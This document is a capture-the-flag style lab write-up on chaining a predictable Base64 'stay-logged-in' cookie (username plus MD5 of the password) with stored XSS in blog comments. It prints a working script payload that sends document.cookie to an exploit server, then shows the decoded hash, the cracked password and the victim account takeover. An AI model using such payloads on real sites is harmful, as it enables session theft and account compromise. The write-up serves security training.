 # Offline Password Cracking

## Challenge Information

* **Category**: Authentication / XSS
* **Level**: Practitioner (Level-2)

## Initial Analysis

I started by logging into my own account with Burp running and checked how the **Stay logged in** feature behaved. I noticed the `stay-logged-in` cookie was Base64-encoded, so I decoded it and found it followed the format:

```
username + ':' + md5HashOfPassword
```

That told me the cookie contained the username and an MD5 of the password — which is something I could abuse if I could obtain another user’s cookie.

## Request Analysis

I reviewed the application to find a vector to steal a cookie. I inspected the blog/comment functionality and noticed it was vulnerable to **stored XSS**. That gave me a way to exfiltrate cookies to an external server I control (the exploit server provided by the lab).

## Attack Execution

1. I went to the exploit server and noted the URL I would receive exfiltrated requests at.
2. I posted a comment on one of the blogs containing a small stored XSS payload that sends `document.cookie` to the exploit server. The payload I used was:

```html
<script>document.location='//My-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

(Replace `My-EXPLOIT-SERVER-ID` with your exploit server’s ID.)

3. I opened the exploit server’s access log and waited for a request from a victim. After a short while a GET request appeared in the log containing the victim’s `stay-logged-in` cookie.
4. I copied the Base64 cookie value from the log and decoded it in Burp Decoder. The decoded value was:

```
carlos:26323c16d5f4dabff3bb136f2460a943
```

5. I copied the hash portion (`26323c16d5f4dabff3bb136f2460a943`) and searched for it — this revealed the plaintext password `onceuponatime`.
6. I logged in as Carlos using the recovered password, navigated to the **My account** page, and deleted the account to complete the lab.

## Vulnerability

**Result**: The application encodes the cookie using a predictable formula, and the comment feature was vulnerable to stored XSS, the attacker can easily get the cookie of the user and use the formula to get the password.
